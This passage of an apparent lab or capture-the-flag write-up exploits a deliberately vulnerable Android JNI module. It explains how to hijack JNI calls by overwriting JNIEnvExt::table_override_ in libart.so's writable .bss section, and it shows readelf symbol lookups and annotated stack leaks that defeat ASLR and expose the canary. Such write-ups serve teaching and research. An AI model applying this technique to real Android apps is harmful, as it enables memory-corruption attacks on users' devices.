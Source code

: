 Note that I might have missed a *vtable*, but this was enough to quit persuing the *vtable* - approach. If we were able to call `mprotect` on the *vtables*, maybe it could be possible to make the *vtables* writable. Although for this to work, we would need to find a function call that provides a virtual function with the exact parameters we need for `mprotect`. Therefore, `__thiscall` is again a challenge.

Luckily, there are other, globally available objects that contain important function pointers. This time, the target will be to abuse the sequence of `JNIEnv` - function calls in a JNI function.

Observe that, if a JNI method is called (in this module), it will be called via a generic trampoline, i.e. via `artQuickGenericJniTrampoline` in assembly in `art_quick_generic_jni_trampoline`. The first parameter is [ALWAYS](https://cs.android.com/android/platform/superproject/+/android-12.0.0_r31:art/runtime/entrypoints/quick/quick_trampoline_entrypoints.cc;l=1936;drc=1e6140afcea4c0f4bd9480bcca29e7939a3999c9) of type `JNIEnv*`. The jni object is fetched via `Thread::GetJniEnv`, which returns an instance of `JNIEnvExt`.
```C++
class JniEnvExt : public JNIEnv {...}
...
#if defined(__cplusplus)
typedef _JNIEnv JNIEnv;
#else
typedef const struct JNINativeInterface* JNIEnv;
...
#endif
...
/*
 * C++ object wrapper.
 *
 * This is usually overlaid on a C struct whose first element is a
 * JNINativeInterface*.  We rely somewhat on compiler behavior.
 */
struct _JNIEnv {
    /* do not rename this; it does not seem to be entirely opaque */
    const struct JNINativeInterface* functions;
    ...
}
```
The definition of `_JNIEnv` comes from [here](https://cs.android.com/android/platform/superproject/+/android-12.0.0_r31:libnativehelper/include_jni/jni.h;drc=1e6140afcea4c0f4bd9480bcca29e7939a3999c9;l=489). In structures, everything is public, therefore `functions` is visible in `JNIEnvExt`!

Then also observe that (see [code](https://cs.android.com/android/platform/superproject/+/android-12.0.0_r31:art/runtime/jni/jni_env_ext.h;l=165))
```c++
class JNIEnvExt : public JNIEnv {
    ...
    static const JNINativeInterface* table_override_ ...;
    ...
}
```
Using
```bash
$ readelf --wide --symbols libart.so | grep "_ZN3art9JNIEnvExt15table_override_E"
 3674: 0000000000e21cb8     8 OBJECT  GLOBAL PROTECTED   23 _ZN3art9JNIEnvExt15table_override_E
10840: 0000000000e21cb8     8 OBJECT  GLOBAL PROTECTED   23 _ZN3art9JNIEnvExt15table_override_E
$ readelf --wide --sections libart.so | grep .bss
  [23] .bss              NOBITS          0000000000e1fbe0 81fbe0 003bb0 00  WA  0   0 16
```
yields that `JNIEnvExt::table_override` is part of `.bss`, which again implies that we can overwrite this pointer with the *Write - What - Where* condition.


[0]: 0x730b9b7a371e     --|
[1]: 0x730b9b7a372a       | --> from `.rodata`, thus 0x730b9b7a371e - 0x71e = libUseAfterFreeWriteModule.so
[2]: 0x730b9b7a3710       |
[3]: 0x730b9b7a3735     --|
[4]: 0x730b993ba990     --> stack address: array of example strings
[5]: 0x2147eb93990de82b --> 8 byte canary
[6]: 0x730b993ba8c0     --> stack address: stored `rbp`
[7]: 0x730c0379ffac     --> `art_quick_generic_jni_trampoline+220`, thus 0x730c0379fed0 = `art_quick_generic_jni_trampoline` and `libart.so = 0x730c03400000`
[0]: 0x730b9d3c874e     <-- ptr: "amazing_key"
[1]: 0x730b9d3c875a     <-- ptr: "secret_key"
[2]: 0x730b9d3c8740     <-- ptr: "topsecret_key"
[3]: 0x730b9d3c8765     <-- ptr: "a_very_very_long_key_with_fancy_features_:D"
[4]: 0x730b9afdf9a0     <-- stack address: most likely examples
[5]: 0x2147eb93990de82b <-- looks more like a canary
[6]: 0x730b9afdf8d0     <-- stack address: stored rbp
[7]: 0x730c0379ffac     <-- return address